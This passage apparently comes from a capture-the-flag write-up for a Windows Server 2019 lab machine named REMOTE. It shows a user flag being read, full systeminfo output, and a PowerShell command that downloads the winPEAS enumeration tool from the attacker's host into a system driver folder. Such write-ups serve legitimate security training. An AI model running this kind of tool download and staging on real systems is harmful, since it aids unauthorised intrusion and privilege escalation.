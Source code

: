 ```powershell
PS C:\Users\Public> type user.txt
af34ddf7875def2cff889b7710163693
```

___

## Privesc

```powershell
PS C:\windows\system32\inetsrv>systeminfo

Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA801
Original Install Date:     2/19/2020, 4:03:29 PM
System Boot Time:          8/15/2021, 11:39:54 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              4 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [03]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [04]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,790 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,603 MB
Virtual Memory: In Use:    1,196 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB4534119
                           [02]: KB4462930
                           [03]: KB4516115
                           [04]: KB4523204
                           [05]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.180
                                 [02]: fe80::8959:5ee9:7065:8f1c
                                 [03]: dead:beef::8959:5ee9:7065:8f1c
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
PS C:\windows\system32\inetsrv> (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/winPEASx64.exe', 'c:\Windows\System32\spool\drivers\color\winPEASx64.exe')
```